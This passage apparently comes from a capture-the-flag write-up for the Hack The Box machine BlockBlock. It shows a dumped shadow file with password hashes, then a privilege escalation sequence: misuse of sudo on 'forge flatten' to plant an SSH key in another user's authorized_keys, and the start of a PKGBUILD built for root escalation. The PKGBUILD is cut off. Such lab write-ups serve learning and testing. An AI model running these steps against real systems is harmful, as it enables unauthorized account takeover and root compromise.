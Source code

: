 ## More

### Dump Hash

```Plain Text
root:$y$j9T$aS1WjBeHOMsj5JDGpOSTR0$eEn9e2kIqFfcRCf79xQw7iLDJbt/ioE793tqS3GnjsC:19878::::::
bin:!*:19878::::::
daemon:!*:19878::::::
mail:!*:19878::::::
ftp:!*:19878::::::
http:!*:19878::::::
nobody:!*:19878::::::
dbus:!*:19878::::::
systemd-coredump:!*:19878::::::
systemd-network:!*:19878::::::
systemd-oom:!*:19878::::::
systemd-journal-remote:!*:19878::::::
systemd-resolve:!*:19878::::::
systemd-timesync:!*:19878::::::
tss:!*:19878::::::
uuidd:!*:19878::::::
polkitd:!*:19878::::::
avahi:!*:19878::::::
git:!*:19878::::::
keira:$y$j9T$XXkQ9ogGKlThyrI.mItx80$eMiwlviC0FB/bu5tWtoc.DpedzwUnOwETzmlPf6ZuC8:19878:0:99999:7:::
paul:$y$j9T$milm8la5tGGIhUazNYV3k.$lsAle1Ny3lNaIzStej/8qsKj/1wSgaoi15f/u5Ky/h9:19878:0:99999:7:::
dhcpcd:!*:20020::::::
_laurel:!:20038::::::
```

### 提权脚本

> 来自 [manesec](https://manesec.github.io/2024/11/23/2024-htb-machine/47-BlockBlock/) 的提权脚本

- Paul

```Plain Text
cd /tmp
ssh-keygen -t rsa -b 4096 -C "mane@manesec.com" -f ./key
sudo -u paul /home/paul/.foundry/bin/forge flatten /tmp/key.pub -o /home/paul/.ssh/authorized_keys
ssh -i key paul@127.0.0.1
```

- root

```Plain Text
cd ~
rm -rf mane
mkdir mane
cd mane 

sudo pacman -R mane --noconfirm

cat << EOF > PKGBUILD
pkgname=mane
pkgver=1.0.2
pkgrel=1
pkgdesc="sleep is good"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=()
sha256sums=()
package() {
```